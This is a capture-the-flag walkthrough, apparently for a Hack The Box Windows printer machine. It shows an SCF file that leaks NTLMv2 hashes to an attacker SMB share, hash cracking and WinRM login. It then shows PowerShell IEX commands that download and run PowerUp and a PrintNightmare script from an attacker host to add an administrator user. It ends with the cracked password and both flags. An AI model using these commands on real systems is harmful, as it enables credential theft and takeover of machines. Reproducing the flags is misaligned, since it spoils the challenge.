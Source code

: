 
**Skills Required**
Enumeration
Offline password cracking
**Skills Learned**
Hash capturing
Meterpreter exploitation

### Step 1: Initial Reconnaissance

Start by gathering information about the target machine. You can use tools like `nmap` to scan for open ports and services. In this case, we've found three open ports: 5985 (winrm), 445 (smb), and 80 (http).

### Step 2: SMB Enumeration

We will use the tool `crackmapexec` to collect information about the machine through the open SMB port (port 445). Run the following command:

```bash
crackmapexec smb 10.10.11.106
```

You can also list network-level shared resources using:

```bash
crackmapexec smb 10.10.11.106 --shared
```

Alternatively, you can use `smbmap`:

```bash
smbmap -H 10.10.11.106 -n 'null'
```

If no resources can be listed, you will need valid credentials for further access.

### Step 3: Web Vulnerability Assessment

Check the website hosted on port 80 (http) for vulnerabilities and user enumeration using a tool like `whatweb`:

```bash
whatweb 10.10.11.106
```

Upon entering the website, it asks to log in. I try with default credentials "admin:admin" and gain access to the web. It's a printer service.

### Step 4: SCF File Attack

There's an application where I can upload a printer firmware, and it seems there's a testing team that checks the uploaded file. I can attempt an SCF File attack by abusing the icon (In an SCF file attack, the attacker creates a specially crafted SCF file that takes advantage of the way Windows handles these shortcut files. When the victim opens or even previews the SCF file, Windows automatically attempts to load icon resource information from it. This automatic behavior can be exploited by attackers to gather sensitive information like NTLMv2 hashes when the victim accesses the malicious SCF file over an SMB (Server Message Block) share.) Create an `.scf` file with the following content:

```plaintext
[Shell]
Command=2
IconFile=\\10.10.14.4\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Then, mount a shared resource via SMB on your machine with Impacket smbserver:

```bash
impacket-smbserver share $(pwd) -smb2support
```

This will allow you to obtain the NTLMv2 hash.

### Step 5: Hash Cracking

Crack the obtained NTLMv2 hash using a tool like `john` with a wordlist:

```bash
john --wordlist=rockyou.txt hash
```

This step will give you valid credentials.

### Step 6: Verification

Verify the obtained credentials using `crackmapexec` for WinRM access:

```bash
crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'
```

If successful, `crackmapexec` will return "Pwn3d," indicating the user is in the "remote management users" group.

### Step 7: Access and Privilege Escalation

Gain access to the target machine using `evil-winrm`:

```bash
evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'
```

Once inside, check your privileges:

```bash
whoami /priv
whoami /all
```

### Step 8: Privilege Escalation Techniques

Use `powerUp.ps1` to search for privilege escalation vectors:

- Download `PowerUp.ps1` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).
- Add `Invoke-AllChecks` to the end of the file.
- Execute the script on the victim's machine.

```bash
# On your machine
python -m http.server 80

# On the victim's machine
PS> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1')
```

If this doesn't yield much, consider using `winpeas`, a more comprehensive privilege escalation tool:

- Download the `winpeas.exe` binary from [PEASS-ng](https://github.com/carlospolop/PEASS-ng/releases/tag/20230903-188479ae).
- Upload it to the victim's machine and run it.

```bash
# On the victim's machine
mkdir C:\Windows\temp\Privesc
cd C:\Windows\temp\privesc
upload winpeas.exe
```

### Step 9: Print Spooler Exploitation

Discover vulnerabilities in the print spooler service. Exploit the "printnightmare" vulnerability using the `CVE-2021-1675.ps1` script:  https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1

```bash
# On your machine
python -m http.server 80

# On the victim's machine
PS> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/nightmare.ps1')
PS> Invoke-Nightmare -DriverName "Xerox" -NewUser "kvzlx" -NewPassword "kvzlx1234@"
```

This creates a user in the Administrator group, granting escalated privileges.

With the successful privilege escalation, you have completed the penetration testing and privilege escalation on the target machine.
user flag 3bb8b07e2fd0e1071f47b871970a5977
root flag 7d0c42c6de00f5debc3d555b629c1b9d

---
